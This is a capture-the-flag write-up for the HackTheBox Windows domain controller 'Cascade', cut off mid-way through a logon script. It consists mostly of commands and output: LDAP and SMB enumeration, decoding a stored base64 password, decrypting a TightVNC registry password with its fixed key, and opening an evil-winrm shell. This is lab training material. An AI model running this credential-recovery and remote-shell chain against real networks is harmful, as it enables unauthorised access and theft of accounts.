


# CTF Penetration Testing

## Platform: HackTheBox

### Machine: [Cascade](https://www.hackthebox.com/machines/Cascade)


- Machine type:  Windows
- Machine difficulty: 🟨 Medium (<span style="color:#f4b03b;">5.1</span>)

> Cascade is a medium difficulty Windows machine configured as a Domain Controller. LDAP anonymous binds are enabled, and enumeration yields the password for user "r.thompson", which gives access to a TightVNC registry backup. The backup is decrypted to gain the password for "s.smith". This user has access to a .NET executable, which after decompilation and source code analysis reveals the password for the "ArkSvc" account. This account belongs to the AD Recycle Bin group, and is able to view deleted Active Directory objects. One of the deleted user accounts is found to contain a hardcoded password, which can be reused to login as the primary domain administrator.

#### Tools Used

**Linux**:
- evil-winrm
- impacket-psexec
- irb (msfconsole)
- ldapsearch
- netexec
- nmap
- smbclient
- sqlite3

**Windows**:
- net.exe
- dnSpy.exe

#### Skills Required

- LDAP Enumeration
- SMB Enumeration
- Processing SQLite Databases
- Reverse Engineering .NET Assemblies

#### Skills Learned

- [TightVNC Password Extraction](https://github.com/frizb/PasswordDecrypts)
- [AES Encryption](https://github.com/ricmoo/pyaes)
- [Active Directory Recycle Bin](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/get-started/adac/active-directory-recycle-bin?utm_source=chatgpt.com&tabs=powershell)

#### Machine Writeup


`ifconfig tun0`:
```
tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.28📌 netmask 255.255.254.0  destination 10.10.14.28
        inet6 fe80::a1cf:4085:cbfb:11e9  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::101a  prefixlen 64  scopeid 0x0<global>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1  bytes 48 (48.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

`fping 10.10.10.182`:
```
10.10.10.182 is alive
```

`sudo nmap -Pn -sSV -p- -T5 10.10.10.182`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-09 07:58 EST
Nmap scan report for 10.10.10.182
Host is up (0.13s latency).
Not shown: 65520 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-09 13:03:24Z)🌐
135/tcp   open  msrpc         Microsoft Windows RPC🌐
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn🌐
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)🌐
445/tcp   open  microsoft-ds?🌐
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)🌐
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 231.43 seconds
```

`sudo nmap -Pn -sS --script=ldap-rootdse -p389 10.10.10.182`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-09 08:22 EST
Nmap scan report for 10.10.10.182
Host is up (0.20s latency).

PORT    STATE SERVICE
389/tcp open  ldap
| ldap-rootdse: 
| LDAP Results
|   <ROOT>
|       currentTime: 20250109132345.0Z
|       subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=cascade,DC=local
|       dsServiceName: CN=NTDS Settings,CN=CASC-DC1,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=cascade,DC=local
|       namingContexts: DC=cascade,DC=local
|       namingContexts: CN=Configuration,DC=cascade,DC=local
|       namingContexts: CN=Schema,CN=Configuration,DC=cascade,DC=local
|       namingContexts: DC=DomainDnsZones,DC=cascade,DC=local
|       namingContexts: DC=ForestDnsZones,DC=cascade,DC=local
|       defaultNamingContext: DC=cascade,DC=local
|       schemaNamingContext: CN=Schema,CN=Configuration,DC=cascade,DC=local
|       configurationNamingContext: CN=Configuration,DC=cascade,DC=local
|       rootDomainNamingContext: DC=cascade,DC=local
|       supportedControl: 1.2.840.113556.1.4.319
|       supportedControl: 1.2.840.113556.1.4.801
|       supportedControl: 1.2.840.113556.1.4.473
|       supportedControl: 1.2.840.113556.1.4.528
|       supportedControl: 1.2.840.113556.1.4.417
|       supportedControl: 1.2.840.113556.1.4.619
|       supportedControl: 1.2.840.113556.1.4.841
|       supportedControl: 1.2.840.113556.1.4.529
|       supportedControl: 1.2.840.113556.1.4.805
|       supportedControl: 1.2.840.113556.1.4.521
|       supportedControl: 1.2.840.113556.1.4.970
|       supportedControl: 1.2.840.113556.1.4.1338
|       supportedControl: 1.2.840.113556.1.4.474
|       supportedControl: 1.2.840.113556.1.4.1339
|       supportedControl: 1.2.840.113556.1.4.1340
|       supportedControl: 1.2.840.113556.1.4.1413
|       supportedControl: 2.16.840.1.113730.3.4.9
|       supportedControl: 2.16.840.1.113730.3.4.10
|       supportedControl: 1.2.840.113556.1.4.1504
|       supportedControl: 1.2.840.113556.1.4.1852
|       supportedControl: 1.2.840.113556.1.4.802
|       supportedControl: 1.2.840.113556.1.4.1907
|       supportedControl: 1.2.840.113556.1.4.1948
|       supportedControl: 1.2.840.113556.1.4.1974
|       supportedControl: 1.2.840.113556.1.4.1341
|       supportedControl: 1.2.840.113556.1.4.2026
|       supportedControl: 1.2.840.113556.1.4.2064
|       supportedControl: 1.2.840.113556.1.4.2065
|       supportedControl: 1.2.840.113556.1.4.2066
|       supportedLDAPVersion: 3
|       supportedLDAPVersion: 2
|       supportedLDAPPolicies: MaxPoolThreads
|       supportedLDAPPolicies: MaxDatagramRecv
|       supportedLDAPPolicies: MaxReceiveBuffer
|       supportedLDAPPolicies: InitRecvTimeout
|       supportedLDAPPolicies: MaxConnections
|       supportedLDAPPolicies: MaxConnIdleTime
|       supportedLDAPPolicies: MaxPageSize
|       supportedLDAPPolicies: MaxQueryDuration
|       supportedLDAPPolicies: MaxTempTableSize
|       supportedLDAPPolicies: MaxResultSetSize
|       supportedLDAPPolicies: MinResultSets
|       supportedLDAPPolicies: MaxResultSetsPerConn
|       supportedLDAPPolicies: MaxNotificationPerConn
|       supportedLDAPPolicies: MaxValRange
|       supportedLDAPPolicies: ThreadMemoryLimit
|       supportedLDAPPolicies: SystemMemoryLimitPercent
|       highestCommittedUSN: 340145
|       supportedSASLMechanisms: GSSAPI
|       supportedSASLMechanisms: GSS-SPNEGO
|       supportedSASLMechanisms: EXTERNAL
|       supportedSASLMechanisms: DIGEST-MD5
|       dnsHostName: CASC-DC1.cascade.local📌
|       ldapServiceName: cascade.local:casc-dc1$@CASCADE.LOCAL
|       serverName: CN=CASC-DC1,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=cascade,DC=local
|       supportedCapabilities: 1.2.840.113556.1.4.800
|       supportedCapabilities: 1.2.840.113556.1.4.1670
|       supportedCapabilities: 1.2.840.113556.1.4.1791
|       supportedCapabilities: 1.2.840.113556.1.4.1935
|       supportedCapabilities: 1.2.840.113556.1.4.2080
|       isSynchronized: TRUE
|       isGlobalCatalogReady: TRUE
|       domainFunctionality: 4
|       forestFunctionality: 4
|_      domainControllerFunctionality: 4
Service Info: Host: CASC-DC1; OS: Windows 2008 R2

Nmap done: 1 IP address (1 host up) scanned in 1.20 seconds
```

`echo -e '10.10.10.182\tCASC-DC1.cascade.local CASC-DC1 cascade.local' | sudo tee -a /etc/hosts`:
```
10.10.10.182    CASC-DC1.cascade.local CASC-DC1 cascade.local
```

`netexec smb 10.10.10.182`:
```
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)📌
```

`netexec smb 10.10.10.182 -u '' -p ''`:
```
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\:🔑
```

`netexec smb 10.10.10.182 -u '' -p '' --users`:
```
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\: 
SMB         10.10.10.182    445    CASC-DC1         -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.10.10.182    445    CASC-DC1         CascGuest                     <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.10.10.182    445    CASC-DC1         arksvc👤                       2020-01-09 16:18:20 0        
SMB         10.10.10.182    445    CASC-DC1         s.smith👤                      2020-01-28 19:58:05 0        
SMB         10.10.10.182    445    CASC-DC1         r.thompson👤                   2020-01-09 19:31:26 0        
SMB         10.10.10.182    445    CASC-DC1         util                          2020-01-13 02:07:11 0        
SMB         10.10.10.182    445    CASC-DC1         j.wakefield                   2020-01-09 20:34:44 0        
SMB         10.10.10.182    445    CASC-DC1         s.hickson                     2020-01-13 01:24:27 0        
SMB         10.10.10.182    445    CASC-DC1         j.goodhand                    2020-01-13 01:40:26 0        
SMB         10.10.10.182    445    CASC-DC1         a.turnbull                    2020-01-13 01:43:13 0        
SMB         10.10.10.182    445    CASC-DC1         e.crowe                       2020-01-13 03:45:02 0        
SMB         10.10.10.182    445    CASC-DC1         b.hanson                      2020-01-13 16:35:39 0        
SMB         10.10.10.182    445    CASC-DC1         d.burman                      2020-01-13 16:36:12 0        
SMB         10.10.10.182    445    CASC-DC1         BackupSvc                     2020-01-13 16:37:03 0        
SMB         10.10.10.182    445    CASC-DC1         j.allen                       2020-01-13 17:23:59 0        
SMB         10.10.10.182    445    CASC-DC1         i.croft                       2020-01-15 21:46:21 0 
```

`netexec smb 10.10.10.182 -u '' -p '' --users | grep -v -E ']|-' | awk '{print $5}' | sort -u | tee ./domain_users.txt`:
```
BackupSvc
CascGuest
a.turnbull
arksvc
b.hanson
d.burman
e.crowe
i.croft
j.allen
j.goodhand
j.wakefield
r.thompson
s.hickson
s.smith
util
```

`ldapsearch -x -H ldap://10.10.10.182/ -b 'DC=cascade,DC=local' '(objectClass=User)'`:
```
[...]

# Ryan Thompson, Users, UK, cascade.local
dn: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Ryan Thompson
sn: Thompson
givenName: Ryan
distinguishedName: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
instanceType: 4
whenCreated: 20200109193126.0Z
whenChanged: 20200323112031.0Z
displayName: Ryan Thompson
uSNCreated: 24610
memberOf: CN=IT,OU=Groups,OU=UK,DC=cascade,DC=local
uSNChanged: 295010
name: Ryan Thompson
objectGUID:: LfpD6qngUkupEy9bFXBBjA==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 132247339091081169
lastLogoff: 0
lastLogon: 132247339125713230
pwdLastSet: 132230718862636251
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAMvuhxgsd8Uf1yHJFVQQAAA==
accountExpires: 9223372036854775807
logonCount: 2
sAMAccountName: r.thompson
sAMAccountType: 805306368
userPrincipalName: r.thompson@cascade.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
dSCorePropagationData: 20200126183918.0Z
dSCorePropagationData: 20200119174753.0Z
dSCorePropagationData: 20200119174719.0Z
dSCorePropagationData: 20200119174508.0Z
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 132294360317419816
msDS-SupportedEncryptionTypes: 0
cascadeLegacyPwd: clk0bjVldmE=📌

[...]
```

`echo 'clk0bjVldmE=' | base64 -d`:
```
rY4n5eva
```

`netexec smb 10.10.10.182 -u 'r.thompson' -p 'rY4n5eva'`:
```
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva🔑
```

`netexec smb 10.10.10.182 -u 'r.thompson' -p 'rY4n5eva' --shares`:
```
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva 
SMB         10.10.10.182    445    CASC-DC1         [*] Enumerated shares
SMB         10.10.10.182    445    CASC-DC1         Share           Permissions     Remark
SMB         10.10.10.182    445    CASC-DC1         -----           -----------     ------
SMB         10.10.10.182    445    CASC-DC1         ADMIN$                          Remote Admin
SMB         10.10.10.182    445    CASC-DC1         Audit$                          
SMB         10.10.10.182    445    CASC-DC1         C$                              Default share
SMB         10.10.10.182    445    CASC-DC1         Data            READ🔍
SMB         10.10.10.182    445    CASC-DC1         IPC$                            Remote IPC
SMB         10.10.10.182    445    CASC-DC1         NETLOGON        READ            Logon server share 
SMB         10.10.10.182    445    CASC-DC1         print$          READ            Printer Drivers
SMB         10.10.10.182    445    CASC-DC1         SYSVOL          READ            Logon server share 
```

`smbclient --user 'r.thompson' --password='rY4n5eva' //10.10.10.182/Data`:
```
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Jan 26 22:27:34 2020
  ..                                  D        0  Sun Jan 26 22:27:34 2020
  Contractors                         D        0  Sun Jan 12 20:45:11 2020
  Finance                             D        0  Sun Jan 12 20:45:06 2020
  IT                                  D        0  Tue Jan 28 13:04:51 2020
  Production                          D        0  Sun Jan 12 20:45:18 2020
  Temps                               D        0  Sun Jan 12 20:45:15 2020

                6553343 blocks of size 4096. 1625348 blocks available
```

`mkdir Data`

`smbclient --user 'r.thompson' --password='rY4n5eva' //10.10.10.182/Data -c 'prompt OFF;recurse ON;lcd /home/nabla/Data;mget *'`:
```
NT_STATUS_ACCESS_DENIED listing \Contractors\*
NT_STATUS_ACCESS_DENIED listing \Finance\*
NT_STATUS_ACCESS_DENIED listing \Production\*
NT_STATUS_ACCESS_DENIED listing \Temps\*
getting file \IT\Email Archives\Meeting_Notes_June_2018.html of size 2522 as IT/Email Archives/Meeting_Notes_June_2018.html (4.1 KiloBytes/sec) (average 4.1 KiloBytes/sec)
getting file \IT\Logs\Ark AD Recycle Bin\ArkAdRecycleBin.log of size 1303 as IT/Logs/Ark AD Recycle Bin/ArkAdRecycleBin.log (2.0 KiloBytes/sec) (average 3.0 KiloBytes/sec)
getting file \IT\Logs\DCs\dcdiag.log of size 5967 as IT/Logs/DCs/dcdiag.log (7.1 KiloBytes/sec) (average 4.7 KiloBytes/sec)
getting file \IT\Temp\s.smith\VNC Install.reg of size 2680 as IT/Temp/s.smith/VNC Install.reg (3.2 KiloBytes/sec) (average 4.2 KiloBytes/sec)
```

`tree ./Data`:
```
./Data
├── Contractors
├── Finance
├── IT
│   ├── Email Archives
│   │   └── Meeting_Notes_June_2018.html
│   ├── LogonAudit
│   ├── Logs
│   │   ├── Ark AD Recycle Bin
│   │   │   └── ArkAdRecycleBin.log
│   │   └── DCs
│   │       └── dcdiag.log
│   └── Temp
│       ├── r.thompson
│       └── s.smith
│           └── VNC Install.reg
├── Production
└── Temps

14 directories, 4 files
```

`cat ./Data/IT/Email\ Archives/Meeting_Notes_June_2018.html`:
```html
<html>

[...]

<p><o:p>&nbsp;</o:p></p>

<p>For anyone that missed yesterday�s meeting (I�m looking at
you Ben). Main points are below:</p>

<p class=MsoNormal><o:p>&nbsp;</o:p></p>

<p>-- New production network will be going live on
Wednesday so keep an eye out for any issues. </p>

<p>-- We will be using a temporary account to
perform all tasks related to the network migration and this account will be deleted at the end of
2018 once the migration is complete. This will allow us to identify actions
related to the migration in security logs etc. Username is TempAdmin (password is the same as the normal admin account password).🔍 </p>

<p>-- The winner of the �Best GPO� competition will be
announced on Friday so get your submissions in soon.</p>

<p class=MsoNormal><o:p>&nbsp;</o:p></p>

<p class=MsoNormal>Steve</p>

[...]

</html>
```

`cat ./Data/IT/Logs/Ark\ AD\ Recycle\ Bin/ArkAdRecycleBin.log`:
```
1/10/2018 15:43 [MAIN_THREAD]   ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
1/10/2018 15:43 [MAIN_THREAD]   Validating settings...
1/10/2018 15:43 [MAIN_THREAD]   Error: Access is denied
1/10/2018 15:43 [MAIN_THREAD]   Exiting with error code 5
2/10/2018 15:56 [MAIN_THREAD]   ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
2/10/2018 15:56 [MAIN_THREAD]   Validating settings...
2/10/2018 15:56 [MAIN_THREAD]   Running as user CASCADE\ArkSvc🔍
2/10/2018 15:56 [MAIN_THREAD]   Moving object to AD recycle bin CN=Test,OU=Users,OU=UK,DC=cascade,DC=local
2/10/2018 15:56 [MAIN_THREAD]   Successfully moved object. New location CN=Test\0ADEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d,CN=Deleted Objects,DC=cascade,DC=local
2/10/2018 15:56 [MAIN_THREAD]   Exiting with error code 0
8/12/2018 12:22 [MAIN_THREAD]   ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
8/12/2018 12:22 [MAIN_THREAD]   Validating settings...
8/12/2018 12:22 [MAIN_THREAD]   Running as user CASCADE\ArkSvc
8/12/2018 12:22 [MAIN_THREAD]   Moving object to AD recycle bin CN=TempAdmin,OU=Users,OU=UK,DC=cascade,DC=local🔍
8/12/2018 12:22 [MAIN_THREAD]   Successfully moved object. New location CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
8/12/2018 12:22 [MAIN_THREAD]   Exiting with error code 0
```

`cat ./Data/IT/Temp/s.smith/VNC\ Install.reg`:
```
��Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC]

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server]
"ExtraPorts"=""
"QueryTimeout"=dword:0000001e
"QueryAcceptOnTimeout"=dword:00000000
"LocalInputPriorityTimeout"=dword:00000003
"LocalInputPriority"=dword:00000000
"BlockRemoteInput"=dword:00000000
"BlockLocalInput"=dword:00000000
"IpAccessControl"=""
"RfbPort"=dword:0000170c
"HttpPort"=dword:000016a8
"DisconnectAction"=dword:00000000
"AcceptRfbConnections"=dword:00000001
"UseVncAuthentication"=dword:00000001
"UseControlAuthentication"=dword:00000000
"RepeatControlAuthentication"=dword:00000000
"LoopbackOnly"=dword:00000000
"AcceptHttpConnections"=dword:00000001
"LogLevel"=dword:00000000
"EnableFileTransfers"=dword:00000001
"RemoveWallpaper"=dword:00000001
"UseD3D"=dword:00000001
"UseMirrorDriver"=dword:00000001
"EnableUrlParams"=dword:00000001
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f🔍
"AlwaysShared"=dword:00000000
"NeverShared"=dword:00000000
"DisconnectClients"=dword:00000001
"PollingInterval"=dword:000003e8
"AllowLoopback"=dword:00000000
"VideoRecognitionInterval"=dword:00000bb8
"GrabTransparentWindows"=dword:00000001
"SaveLogToAllUsersPath"=dword:00000000
"RunControlInterface"=dword:00000001
"IdleTimeout"=dword:00000000
"VideoClasses"=""
"VideoRects"=""
```

`msfconsole -q`:
```
msf6 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

irb: warn: can't alias jobs from irb_jobs.
>>  fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
=> "\x17Rk\x06#NX\a"
>>  require 'rex/proto/rfb'
=> true
>> Rex::Proto::RFB::Cipher.decrypt ["6BCF2A4B6E5ACA0F"].pack('H*'), fixedkey
=> "sT333ve2"🔑
```

`netexec smb 10.10.10.182 -u 's.smith' -p 'sT333ve2'`:
```
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\s.smith:sT333ve2🔑
```

`netexec winrm 10.10.10.182 -u 's.smith' -p 'sT333ve2'`:
```
WINRM       10.10.10.182    5985   CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 (name:CASC-DC1) (domain:cascade.local)
WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\s.smith:sT333ve2 (Pwn3d!)🚀
```

`evil-winrm -i 10.10.10.182 -u 's.smith' -p 'sT333ve2'`:
```
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\s.smith\Documents>
```
🐚


`whoami`:
```
cascade\s.smith
```

`whomai /all`:
```
USER INFORMATION
----------------

User Name       SID
=============== ==============================================
cascade\s.smith S-1-5-21-3332504370-1206983947-1165150453-1107


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ===============================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
CASCADE\Data Share                          Alias            S-1-5-21-3332504370-1206983947-1165150453-1138 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\Audit Share                         Alias            S-1-5-21-3332504370-1206983947-1165150453-1137 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\IT                                  Alias            S-1-5-21-3332504370-1206983947-1165150453-1113 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\Remote Management Users             Alias            S-1-5-21-3332504370-1206983947-1165150453-1126 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

`dir C:\\Users\s.smith\Desktop`:
```
    Directory: C:\Users\s.smith\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         1/9/2025  12:54 PM             34 user.txt
-a----         2/4/2021   4:24 PM           1031 WinDirStat.lnk
```

`type C:\\Users\s.smith\Desktop\user.txt`:
```
fa20f***************************🚩
```

`dir C:\\Users\`:
```
    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        3/25/2020  11:17 AM                Administrator
d-----        1/28/2020  11:37 PM                arksvc
d-r---        7/14/2009   5:57 AM                Public
d-----        1/15/2020  10:22 PM                s.smith
```

`net.exe user s.smith`:
```
User name                    s.smith
Full Name                    Steve Smith
Comment
User's comment
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/28/2020 7:58:05 PM
Password expires             Never
Password changeable          1/28/2020 7:58:05 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script                 MapAuditDrive.vbs
User profile
Home directory
Last logon                   1/28/2020 11:26:39 PM

Logon hours allowed          All

Local Group Memberships      *Audit Share🔍         *IT
                             *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
```


`netexec smb 10.10.10.182 -u 's.smith' -p 'sT333ve2' --shares`:
```
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\s.smith:sT333ve2 
SMB         10.10.10.182    445    CASC-DC1         [*] Enumerated shares
SMB         10.10.10.182    445    CASC-DC1         Share           Permissions     Remark
SMB         10.10.10.182    445    CASC-DC1         -----           -----------     ------
SMB         10.10.10.182    445    CASC-DC1         ADMIN$                          Remote Admin
SMB         10.10.10.182    445    CASC-DC1         Audit$          READ🔍          
SMB         10.10.10.182    445    CASC-DC1         C$                              Default share
SMB         10.10.10.182    445    CASC-DC1         Data            READ            
SMB         10.10.10.182    445    CASC-DC1         IPC$                            Remote IPC
SMB         10.10.10.182    445    CASC-DC1         NETLOGON        READ🔍          Logon server share 
SMB         10.10.10.182    445    CASC-DC1         print$          READ            Printer Drivers
SMB         10.10.10.182    445    CASC-DC1         SYSVOL          READ            Logon server share
```

`mkdir NETLOGON`

`smbclient --user 's.smith' --password='sT333ve2' //10.10.10.182/NETLOGON -c 'prompt OFF;recurse ON;lcd /home/nabla/NETLOGON;mget *'`:
```
getting file \MapAuditDrive.vbs of size 258 as MapAuditDrive.vbs (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
getting file \MapDataDrive.vbs of size 255 as MapDataDrive.vbs (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)
```

`tree ./NETLOGON`:
```
./NETLOGON
├── MapAuditDrive.vbs
└── MapDataDrive.vbs

1 directory, 2 files
```

`cat ./NETLOGON/MapAuditDrive.vbs`:
```
'MapAuditDrive.vbs
Option Explicit
Dim oNetwork, strDriveLetter, strRemotePath
strDriveLetter = "F:"
strRemotePath = "\\CASC-DC1\Audit$"🔍
Set oNetwork = CreateObject("WScript.Network")
